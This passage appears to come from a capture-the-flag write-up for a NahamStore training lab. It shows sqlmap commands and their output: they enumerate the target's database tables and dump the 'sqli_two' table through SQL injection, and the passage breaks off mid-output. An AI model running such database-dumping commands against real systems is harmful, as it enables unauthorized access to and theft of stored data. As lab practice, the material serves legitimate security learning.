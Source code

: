 - `sqlmap -r req.txt --level 3 --risk 3 -D nahamstore --tables`
	```
	...
	[18:49:02] [INFO] parsing HTTP request from 'req.txt'
	Multipart-like data found in POST body. Do you want to process it? [Y/n/q] y
	Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] n
	[18:49:15] [INFO] resuming back-end DBMS 'mysql' 
	[18:49:15] [INFO] testing connection to the target URL
	got a 302 redirect to 'http://nahamstore.thm:80/returns/3?auth=eccbc87e4b5ce2fe28308fd9f2a7baf3'. Do you want to follow? [Y/n] n
	...
	Database: nahamstore
	[2 tables]
	+----------+
	| order    |
	| sqli_two |
	+----------+
	...
	```
	- We have confirmed the target table `sqli_two`
	![15sqli2-3](imgs/15sqli2-3.png)

- `sqlmap -r req.txt --level 3 --risk 3 -D nahamstore -T sqli_two --dump`
	```
	...
	[18:51:56] [INFO] parsing HTTP request from 'req.txt'
	Multipart-like data found in POST body. Do you want to process it? [Y/n/q] y
	Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] n
	[18:51:59] [INFO] resuming back-end DBMS 'mysql' 
	[18:51:59] [INFO] testing connection to the target URL
	got a 302 redirect to 'http://nahamstore.thm:80/returns/4?auth=a87ff679a2f3e71d9181a67b7542122c'. Do you want to follow? [Y/n] n
	...
	Database: nahamstore